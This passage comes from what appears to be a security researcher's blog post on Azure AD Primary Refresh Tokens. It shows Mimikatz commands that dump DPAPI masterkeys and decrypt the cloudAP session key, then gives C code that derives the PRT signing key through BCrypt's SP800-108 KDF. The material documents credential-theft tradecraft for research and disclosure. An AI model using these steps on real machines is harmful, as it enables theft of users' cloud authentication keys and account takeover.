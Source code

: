 This DPAPI protected session key can only be decrypted by the `SYSTEM` user, so we either use `token::elevate` to elevate to `SYSTEM` context, or we use `sekurlsa::dpapi` to dump all the cached DPAPI masterkeys. Mimikatz uses an internal cache of DPAPI keys it saw during the session, so it can use it from the regular context afterwards (magic). The command `dpapi::cloudapkd` can be used to decrypt this key (and also to create derived keys, but that is something we don't use for now):

![Mimikatz DPAPI decrypt](/assets/img/cloudap/mimikatz_cloudapkd.png){: .align-center}

## Deriving the signing key from the session key
This gives us the clear-text session key. We can use this to derive the key we need ourselves. I ~~googled together~~ wrote a small (and ugly) C/C++ [program](https://gist.github.com/dirkjanm/2bc0d162454eb6d663ff699eff2705cb) for this. The basis is that we need the two API calls, `BCryptGenerateSymmetricKey` and `BCryptKeyDerivation`. However, the `BCryptGenerateSymmetricKey` function requires a handle from [BCryptOpenAlgorithmProvider](https://docs.microsoft.com/en-us/windows/desktop/api/bcrypt/nf-bcrypt-bcryptopenalgorithmprovider), which was not captured by API Monitor (presumably because it was already open when I started my monitoring). However looking at the [KDF parameters](https://docs.microsoft.com/en-us/windows/win32/api/bcrypt/nf-bcrypt-bcryptkeyderivation#parameters) that are passed to `BCryptKeyDerivation` later on, the only algorithm that requires these exact KDF parameters is *SP800-108 HMAC in counter mode*. So let's try with that one:

```C
NTSTATUS ret = BCryptOpenAlgorithmProvider(&hProvider, BCRYPT_SP800108_CTR_HMAC_ALGORITHM, MS_PRIMITIVE_PROVIDER, 0);
```

We can then create a symmetric key using the 32 bytes session key that we extracted as secret input:

```C
NTSTATUS ret2 = BCryptGenerateSymmetricKey(hProvider, &hKey, NULL, 0, (PBYTE)secret, 32, 0);
```

Finally, we construct the struct containing the label and context, and derive the key:

```C
const char *text = "AzureAD-SecureConversation";
static
    BCryptBuffer SP800108ParamBuffer[] = {
        {
            26,
            KDF_LABEL,
            (PBYTE)text,
        },
        {
            24,
            KDF_CONTEXT,
            (PBYTE)context,
        },
        {
            sizeof(BCRYPT_SHA256_ALGORITHM),
            KDF_HASH_ALGORITHM,
            (PBYTE) BCRYPT_SHA256_ALGORITHM,
        }
};
BCryptBufferDesc desc = { 0, 3, SP800108ParamBuffer };
PBYTE   DerivedKey = NULL;
DWORD   DerivedKeyLength = 0x20;
DerivedKey = (PBYTE)HeapAlloc(GetProcessHeap(), 0, DerivedKeyLength);
ULONG result = NULL;
NTSTATUS ret3 = BCryptKeyDerivation(hKey, &desc, DerivedKey, DerivedKeyLength, &result, 0); 
```